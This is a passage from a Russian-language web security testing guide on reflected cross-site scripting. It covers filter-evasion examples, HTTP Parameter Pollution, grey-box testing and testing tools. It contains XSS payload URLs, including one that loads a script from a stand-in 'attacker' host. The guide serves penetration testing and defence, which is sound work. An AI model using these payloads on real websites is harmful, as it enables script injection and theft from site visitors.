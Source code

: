 ```text
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

Это позволит эксплуатировать отражённую уязвимость межсайтового скриптинга, показанную ранее, выполняя код JavaScript, хранящийся на web-сервере злоумышленника, как если бы он исходил с web-сайта жертвы, `http://example/`.

#### Пример №7: загрязнение параметров HTTP (англ.: HTTP Parameter Pollution, HPP)

Другим методом обхода фильтров является загрязнение параметров HTTP, этот метод был впервые представлен Stefano di Paola и Luca Carettoni в 2009 г. на конференции OWASP в Польше. Дополнительные сведения см. в разделе [Тестирование загрязнения параметров HTTP](04-Testing_for_HTTP_Parameter_Pollution.md). Этот метод обхода заключается в разделении вектора атаки между несколькими параметрами, имеющими одно и то же имя. Манипулирование значением каждого параметра зависит от того, как конкретная web-технология анализирует эти параметры, поэтому такой тип обхода не всегда возможен. Если тестируемая среда объединяет значения всех параметров с одним и тем же именем, то злоумышленник может использовать этот метод для обхода механизмов защиты на основе сигнатур.
Обычная атака:

```text
http://example/page.php?param=<script>[...]</script>
```

Атака с HPP:

```text
http://example/page.php?param=<script&param=>[...]</&param=script>
```

Более подробный перечень методов обхода фильтров см. в [Памятке по обходу фильтров XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet). Анализ ответов может быть затруднительным. Простой способ его провести — использовать код, который вызывает всплывающее диалоговое окно, как в нашем примере. Обычно это указывает на то, что злоумышленник может выполнить произвольный код JavaScript в браузерах посетителей.

### Тестирование методом серого ящика

Тестирование методом серого ящика похоже на метод чёрного. В этом случае пентестер частично знает приложение, ему может быть известна информация о пользовательском вводе, мерах по контролю входных данных и о том, как введённое отображается пользователю.

При наличии исходного кода (тестирование методом белого ящика) необходимо проанализировать все переменные, полученные от пользователей. Кроме того, надо проанализировать все реализованные процедуры нейтрализации, чтобы решить, можно ли их обойти.

## Инструменты

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoding/) помогает кодировать в/из разных наборов символов произвольные тексты, которые можно использовать в настраиваемых полезных нагрузках.
- [Hackvertor](https://hackvertor.co.uk/public) — онлайн-инструмент, который позволяет использовать множество типов кодирования и обфускации JavaScript (или любого строкового ввода).
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) — инструмент для атак с использованием межсайтовых скриптов.
- [ratproxy](https://code.google.com/archive/p/ratproxy/) — полуавтоматический, в основном пассивный инструмент аудита безопасности web-приложений, оптимизированный для точного и чувствительного обнаружения и автоматического аннотирования потенциальных проблем и шаблонов проектирования, связанных с безопасностью, на основе наблюдения за существующим трафиком, инициируемым пользователями в web 2.0 окружении.
- [Burp Proxy](https://portswigger.net/burp/) представляет собой интерактивный HTTP/S прокси-сервер для атак и тестирования web-приложений.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) представляет собой интерактивный HTTP/S прокси-сервер для атаки и тестирования web-приложений со встроенным сканером.
